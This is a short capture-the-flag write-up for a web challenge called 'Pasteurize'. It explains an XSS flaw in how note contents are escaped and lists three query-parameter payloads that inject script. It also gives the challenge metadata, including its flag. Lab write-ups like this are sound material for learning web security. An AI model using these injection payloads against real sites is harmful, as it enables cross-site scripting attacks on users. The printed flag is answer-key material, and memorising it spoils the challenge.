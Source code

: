 # Pasteurize

## Overview

This is a simple XSS challenge. The vulnerability yields in escaping the contents 
of the note. 

## Exploit
Send a note with either of the following query parameters inside POST body:
- `?content[;alert()//]`
- `?content[]=;alert()//`
- `?content=;alert//&content=`

## Metadata

```json
{
  "challenge": {
    "name": "Pasteurize",
    "description": "This doesn't look secure. I wouldn't put even the littlest secret in here. My source tells me that third parties might have implanted it with their little treats already. Can you prove me right?",
    "identifier": "pasteurize",
    "category": "web",
    "points" : 500,
    "flag": "CTF{Express_t0_Tr0ubl3s}",
    "tags": ["easy"],
    "released": true,
    "gae": {
        "app_config": "app/app.yaml",
        "dns-part": "pasteurize"
    },
    "link": "https://pasteurize.web.ctfcompetition.com/"
  }
}
```